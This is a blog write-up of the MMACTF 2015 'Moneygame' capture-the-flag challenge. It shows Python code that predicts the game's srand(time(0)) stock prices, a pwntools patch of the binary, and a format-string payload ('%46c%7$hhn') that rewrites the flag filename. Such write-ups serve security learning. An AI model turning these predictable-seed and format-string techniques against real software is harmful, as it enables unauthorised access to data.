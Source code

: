 ```yaml
---
layout: post
title: "MMACTF 2015 - Moneygame"
date: 2015-09-07 18:03:59
categories: CTF
---
```


We are presented with a stock market game. We have to time the market just right in order to get 10x our initial cash pile. Psh.. easy peasy

```
Week #1: 
You have $10000.00!
Stock #1: $100.00 (You have 0.)
Stock #2: $100.00 (You have 0.)
Stock #3: $100.00 (You have 0.)
Action (Buy/Sell/Rest) [Rest] : Buy
Which stock do you want to buy? (1-3) [1]: 1
How many stocks do you want to buy? (0-100) [0]: 100


Week #2: 
You have $0.00!
Stock #1: $103.16 (You have 100.)
Stock #2: $91.44 (You have 0.)
Stock #3: $92.64 (You have 0.)
Action (Buy/Sell/Rest) [Rest] : 
```

Taking a look at the binary, we see that the numbers are generated from an `srand(time(0))`. This is great for us, since we can create the same random number sequence on our end, thus negating the "random" factor of the stocks.

![srand.png](/assets/images/srand.png)

## Quick aside

There is a print function that clears the screen in the binary. This only allowed for one week of stocks to be seen at one time. This was quite annoying for debugging. Let's remove that functionality by patching over a call to `printf()`. Patching over it is a breeze with [binjitsu](http://www.github.com/binjitsu/binjitsu).

{% highlight python %}
from pwn import *

elf = ELF('moneygame')

# NOP out annoying print that clears screen
# call printf is 5 bytes
for addr in (0x80487b3, 0x80487b8):
    elf.asm(addr, 'nop')

elf.save('moneygame-patched')
{% endhighlight %}

Now, `moneygame-patched` can use used locally without the annoying screen clear. Now to the actual write-up

## Flag 1

With the help of Python's ctypes, generating random numbers on our end is trivial:

{% highlight python %}
from ctypes import CDLL
libc = CDLL('libc-2.19.so')

# Seed srand with time(0)
now = int(floor(time.time()))
libc.srand(now)

random_num = libc.rand()
{% endhighlight %}

From here, we replicate the same function that creates the stocks from the binary in Python:

{% highlight python %}
def set_stocks():
    '''Create stocks based on current srand'''
    for index in xrange(1, 4):
        stocks[index].append(10000)

    for _ in xrange(54):
        for index in xrange(1, 4):
            curr_stock = stocks[index][-1]

            # Use of libc's rand in Python
            curr_stock += libc.rand() % 2001 - 1000
            if curr_stock <= 4999:
                curr_stock = 5000
            if curr_stock > 15000:
                curr_stock = 15000

            stocks[index].append(curr_stock)
{% endhighlight %}

Now that we have our three stock listings, we have to determine the optimal buy/sell path to success.

The quick and dirty method I used is described below:

* Calculate the peaks and valleys of each stock listings
* Calculate the largest profit margins for each stock using the peaks and valleys
* Sort all profit margins together
* Attempt to fill the 54 weeks based on the profit margins

An example of the last step of this simple algorithm is below:

The top three profit margins:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
[1, 5, 50,  '2'] Stock 2 from week 1 to 5 yields 100
{% endhighlight %}

Starting with the most profitable, fill in our available actions:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100

Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', '', '', '']
{% endhighlight %}

Second most profitable:
{% highlight python %}
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80

Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Our third most profitable overlaps and existing range i.e. the [4, 6, 100, '1']. In this case, fill as much as we can before the start of the existing range.
Note: This is not optimal. Bigger improvements can be made, but are not necessary.
{% highlight python %}
[1, 5, 50, '2']

# Note: 1 - 5 overlaps into existing 4 - 6, Try to go as far as we can before selling.
Actions: ['', 'Buy stock2', 'Rest', 'Sell stock2', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Now that we have our optimal actions, we simulate these actions in order to determine if the actions result in a bank of $100k. We don't want to waste time with the server, if we know ahead of time that we can lose.

Once we determine that we can win, we simply throw our results at the server and retrieve the first flag.

## Flag 2

There is a string format vulnerability in the name field of the high score after winning the game. After winning the game, the binary grabs the filename of the flag `flag1`, reads the contents of the file, and returns the contents to the user. We are given that the second flag is named `flag2`, so we can use the string format to simply change the filename from `flag1` to `flag2`. 

{% highlight python %}
# Located at offset 7 on the stack
# 0x804a2b4 = 'flag1'
# 0x804a2b8 = '1'
# '2' == 50
# Padding necessary -> 50 - 4 bytes of address = 46
shellcode = p32(0x804a2b8) + '%46c%7$hhn'
{% endhighlight %}
